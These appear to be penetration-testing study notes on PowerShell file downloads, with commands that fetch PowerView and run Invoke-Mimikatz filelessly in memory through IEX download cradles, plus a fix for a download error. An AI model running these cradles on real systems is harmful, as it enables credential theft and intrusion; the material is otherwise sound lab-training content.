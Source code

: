 ## File Download
```powershell
# PS C:\htb> Example: (New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
PS C:\htb> (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')

# PS C:\htb>Example: (New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')
PS C:\htb> (New-Object Net.WebClient).DownloadFileAsync('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1', 'PowerViewAsync.ps1')

# From PowerShell 3.0 onwards, the Invoke-WebRequest cmdlet is also available, but it is noticeably slower at downloading files. You can use the aliases "iwr"
PS C:\htb> iwr https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1
```

## DownloadString - Fileless Method
 Instead of downloading a PowerShell script to disk, we can run it directly in memory using the `Invoke-Expression` cmdlet or the alias `IEX`.
```powershell
PS C:\htb> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')

# IEX also accepts pipeline input
PS C:\htb> (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX
```

List of [Powershell Download Cradles](https://gist.github.com/HarmJ0y/bb48307ffa663256e239)

### Common Errors with Powershell
**Error 1**
![[Pasted image 20230917153859.png]]

This can be bypassed using the parameter `-UseBasicParsing`.
```powershell
PS C:\htb> Invoke-WebRequest https://<ip>/PowerView.ps1 | IEX

Invoke-WebRequest : The response content cannot be parsed because the Internet Explorer engine is not available, or Internet Explorer's first-launch configuration is not complete. Specify the UseBasicParsing parameter and try again.
At line:1 char:1
+ Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/P ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ CategoryInfo : NotImplemented: (:) [Invoke-WebRequest], NotSupportedException
+ FullyQualifiedErrorId : WebCmdletIEDomNotSupportedException,Microsoft.PowerShell.Commands.InvokeWebRequestCommand

# Fix
PS C:\htb> Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX
```

